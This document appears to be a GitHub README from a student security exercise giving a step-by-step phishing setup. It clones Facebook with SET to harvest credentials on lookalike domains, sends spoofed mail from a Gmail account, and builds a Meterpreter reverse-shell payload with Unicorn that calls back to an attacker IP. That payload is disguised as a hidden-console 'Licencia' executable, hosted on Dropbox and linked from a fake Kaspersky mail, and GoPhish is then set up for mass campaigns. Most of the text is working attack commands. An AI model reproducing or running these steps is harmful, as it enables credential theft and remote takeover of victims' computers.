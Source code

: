 ## Summary:
This is a recreation to create a couple of pishing campaigns

## Description
With one droplet or machine that have public ip, we are going to perform a couple of pishing campaings with differents aplications that are SET and GoPhish

## Steps To Reproduce:
1. First we will need some things
	- A droplet or machine with public Ip in this case i use Digital Ocean
		- Create a droplet with ubuntu on DigitalOcean
		- Acces the machine via console or ssh
	- A email of gmail for send mails
	- An account in noip
	- An account in dropbox
	- NotePad or NotePad++ or something to change .txt to .bat
	- .Bat to .exe app
	- 2 mails template and one html template (Can be download down)
2. Install Katoolin3 for app of Kali
	1. Use the next commands:
		- "sudo add-apt-repository universe"
		- "git clone https://github.com/s-h-3-l-l/katoolin3"
		- "cd katoolin3/"
		- "chmod +x ./install.sh"
		- "sudo ./install.sh"
3. Install SET from katoolin3
	1. "sudo katoolin3"
	1. enter "0" for view categories tab
	2. enter "0" for exploitation tools tab
	3. enter "15" for install SET
4. Setup hostname for the 2 pages in Noip
	- Eg.
		- facebuok.ddns.net ip 157.230.93.90
		- preguntasfrecuentes.ddns.net ip 157.230.93.90
5. Change Apache ports.
	1. Edit /etc/apache2/ports.conf file.
		1. There edit line "Listen 80"
			- Eg "Listen 81"
	2. Edit port too in /etc/apache2/sites-enabled/000-default.conf 
		1. Edit the first line "<VirtualHost *:80>"
			- Eg. "<VirtualHost *:81>"
	3. And do "systemctl stop apache2" and "systemctl start apache2"
6. Configure gmail account for send mails with SET
	1. Go to gmail.com
	2. Go to Configuration of the account
	3. Go to security tab
	4. Change Less secure app access to on
7. Make a copy of Facebook with SET
	1. In a terminal :"setoolkit"
	2. enter "1" for social penetretion attacks
	3. enter "2" for website attack vector
	4. enter "3" for credential harvest attack method
	5. enter "2" for site cloner
	6. Enter the required data (Host ip and url of page) Eg.
		- 157.230.93.90
		- "https://www.facebook.com"
8. Send a mail with SET
	1. In a new terminal: "setoolkit"
	2. enter "1" for social penetretion attacks
	3. enter "5" for Mass Mailer Attack
	4. enter "1" for  E-Mail Attack Single Email Address 
	5. Enter the email that wants to attack
		- Eg. "iteso.esi.1@gmail.com"
	6. Enter "1" for Use a gmail Account for your email attack.
	7. Enter the required data Eg.
		- facebouk163@gmail.com
		- Facebook Center
		- ******
		- yes
		- n
		- n
		- Inicio de Sesion no verificado
		- h
		- -Copy of the html inicio de sesion facebook that download before-
		- END
10. In the terminal that copy facebook wait until the user try to login in the fake page
	1. For see report go to
		1. /root/.set/reports/
9. Create a new page in apache for the mail campaign in GoPhish
	1. Remove original index
		- "rm /var/www/html/index.html"
	2. Create a new index
		- "nano /var/www/html/index.html"
	3. There copy all the content of Html Preguntas Iteso or make your own html code.
10. Install Unicorn and create payload
	1. "git clone https://github.com/trustedsec/unicorn.git"
	2. "cd unicorn/"
	3. For make the payload
		- "./unicorn.py windows/meterpreter/reverse_tcp [IP] [Port]"
			- Eg "./unicorn.py windows/meterpreter/reverse_tcp 157.230.93.90 448"
	4. For tell metasploit to listen in that ip in that port with this payload
		- "cd unicorn/"
		- "msfconsole -r unicorn.rc"
	5.   Download powershell_attack.txt to another machine with an app for convert .bat to .exe with scp
		- scp user@IP:unicorn/powershell_attack.txt machine_directory
			- Eg. scp root@157.230.93.90:unicorn/powershell_attack.txt C:/Users/luisd/Documents/
	6. Open Notepad and open powershell_attack.txt and save as powershell_attack.bat
	7. Open bat to exe converter
		1. Open powershell_attack.bat.
			1. Remove the lines with #
			2. Add at the top "notepad"
			3. In options change Exe-format to 64 Bit | Console Invisible and fill icon.
			4. Click in convert button and save it as Licencia or anothe name that you want.
	8. Upload the file to Dropbox and make a share link
	9. In the share link change the end "dl=0" to "dl=1"
	10. Open the "Mail kaspersky"
		1. And change  href with your link 
			1. Eg. a href="https://www.dropbox.com/s/a6xl1zi1rz95sn1/Licencia.exe?dl=1"
11. Install Gophish
	1. "sudo apt install unzip"
	2. "wget https://github.com/gophish/gophish/releases/download/v0.5.0/gophish-v0.5.0-linux-64bit.zip"
	3. "sudo mkdir /opt/gophish"
	4. "sudo unzip gophish-v0.5.0-linux-64bit.zip -d /opt/gophish"
	5. "sudo sed -i 's!127.0.0.1!0.0.0.0!g' /opt/gophish/config.json"
	7. Change port
		1. Go to nano /opt/gophish/config.json
		2. change "listen url:"0.0.0.0:80" to "0.0.0.0:433"
	6. Init gophish
		1. "cd /opt/gophish"
		2. "sudo ./gophish"
12. Make the campaing
	1. Go to https://IP:3333
		- Eg. https://157.230.93.90:3333/
	2. Enter with user:admin password:gophish
	3. Go to Email Templates
		1. Add a new template
			1. Put the name and the subjet and go to html tab
			2. Copy the content of Mail Kapersky or make your own mail
	4. Go to Landing Pages tab
		2. Add Landing Page
			1. Name it and copy the content of HTML Preguntas Iteso or make your own page
	5. Go to Sending Profiles tab
		3. Add a Sending Profile
			1. Name it
			2. From put the name that user will see at first
			3. Host: smtp.gmail.com:587
			4. Username : Your gmail
			5. Password: Your gmail password
	6. Go to Usuers & Groups tab
		4. Add  a new group
			1. There add the mails that you want to phishing.
	7. Go to Campaigns tab
		1. Add a new Campaign
		2. Name it, select all the things that just created and in  Url: put the Ip of the Droplet
		3. Start the campaign.
## Supporting Material/References:
[Templates](https://iteso01-my.sharepoint.com/:f:/g/personal/si721750_iteso_mx/EpfU-WrwW9pGiyqlCAERJ9UBISuyUkeYM9ujMGjwIYhsMw?e=03Ff9F)

[SET](https://www.trustedsec.com/tools/the-social-engineer-toolkit-set/)

[GoPhish](https://getgophish.com/)

[NotePad++](https://notepad-plus-plus.org/downloads/)

[BatToExe](https://www.majorgeeks.com/files/details/bat_to_exe_converter.html)

[NoIp](https://www.noip.com/)

[Katoolin3](https://github.com/s-h-3-l-l/katoolin3)

[Gmail](Gmail.com)

